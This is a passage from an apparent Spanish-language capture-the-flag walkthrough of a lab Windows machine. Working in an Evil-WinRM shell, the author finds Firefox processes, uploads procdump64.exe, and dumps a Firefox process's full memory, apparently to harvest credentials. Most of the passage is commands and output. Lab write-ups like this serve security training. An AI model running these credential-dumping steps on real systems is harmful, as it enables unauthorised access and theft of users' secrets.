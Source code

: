 ```bash
d-----        4/21/2019  11:00 AM                Windows Media Player
d-----        9/15/2018  12:49 PM                Windows Multimedia Platform
d-----        9/15/2018  12:58 PM                windows nt
d-----        4/21/2019  11:00 AM                Windows Photo Viewer
d-----        9/15/2018  12:49 PM                Windows Portable Devices
d-----        9/15/2018  12:49 PM                Windows Security
d-----        9/15/2018  12:49 PM                WindowsPowerShell
*Evil-WinRM* PS C:\Program Files> ps | findstr firefox
    356      25    16460      39016       0.14   6068   1 firefox
   1071      69   132212     209688       6.02   6448   1 firefox
    347      19    10192      38604       0.08   6560   1 firefox
    401      34    31668      90608       0.88   6780   1 firefox
    378      28    21696      58312       0.28   6976   1 firefox
```
Aqui podemos utilizar <a href='https://learn.microsoft.com/en-us/sysinternals/downloads/procdump'>procdump64.exe</a> para intentar sacar un dump de uno de los procesos del firefox. Una vez descargado y descomprimido subiremos este .exe a la maquina.
```bash
$ mv /home/kali/Downloads/Procdump.zip .
$ unzip Procdump.zip
Archive:  Procdump.zip
  inflating: procdump.exe            
  inflating: procdump64.exe          
  inflating: procdump64a.exe         
  inflating: Eula.txt

*Evil-WinRM* PS C:\Users\Chase> upload /home/kali/Maquinas/Machinesnormal/Heist/procdump64.exe .
Info: Uploading /home/kali/Maquinas/Machinesnormal/Heist/procdump64.exe to .

                                                             
Data: 566472 bytes of 566472 bytes copied

Info: Upload successful!
```
Y lo ejecutamos sobre el pid del firefox.
```bash
*Evil-WinRM* PS C:\Users\Chase> cd Documents
*Evil-WinRM* PS C:\Users\Chase\Documents> upload /home/kali/Maquinas/Machinesnormal/Heist/procdump64.exe
Info: Uploading /home/kali/Maquinas/Machinesnormal/Heist/procdump64.exe to C:\Users\Chase\Documents\procdump64.exe

*Evil-WinRM* PS C:\Users\Chase\Documents> dir


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/7/2023  11:03 PM         424856 procdump64.exe


*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -accepteula -ma 6068

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[23:07:14] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_230507_230714.dmp
[23:07:14] Dump 1 writing: Estimated dump file size is 298 MB.
[23:07:17] Dump 1 complete: 298 MB written in 2.3 seconds
[23:07:17] Dump count reached.

```